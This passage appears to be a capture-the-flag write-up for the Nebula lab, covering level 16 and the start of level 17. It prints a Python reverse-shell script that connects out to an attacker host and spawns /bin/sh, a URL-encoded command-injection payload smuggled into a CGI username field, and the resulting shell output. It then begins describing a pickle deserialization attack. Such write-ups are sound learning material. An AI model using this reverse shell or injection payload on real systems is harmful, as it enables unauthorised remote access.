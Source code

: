 	# on nebula host
	level16@nebula:~$ cat /tmp/BD.PY 
	#!/usr/bin/python
	import socket,subprocess,os

	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.56.1",8888))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"])
	level16@nebula:~$ chmod +x /tmp/BD.PY


And request the url with the payload:

> http://192.168.56.101:1616/index.cgi?username=%24%28%2F%2A%2FBD.PY%29&password=

Getting us a shell:

	:::bash
	sh-4.2$ id
	id
	uid=983(flag16) gid=983(flag16) groups=983(flag16)
	sh-4.2$ getflag
	getflag
	You have successfully executed getflag on a target account


Another approach would be to use case modifications in shell expansions:
[case modifications](http://wiki.bash-hackers.org/syntax/pe#case_modification)

## Level 17 - RCE with pickle

This level is quite similar to a previous level where we exploited `serialize()` in PHP.

Pickle is a simple object serialization algortihm that transforms Python objects to strings and vice versa.

But as the docs state, it is unsecure when the data comes from untrusted sources. In our case, the vulnerable server
looks like this:

	:::python
	#!/usr/bin/python

	import os
	import pickle
	import time
	import socket
	import signal

	signal.signal(signal.SIGCHLD, signal.SIG_IGN)

	def server(skt):
		line = skt.recv(1024)
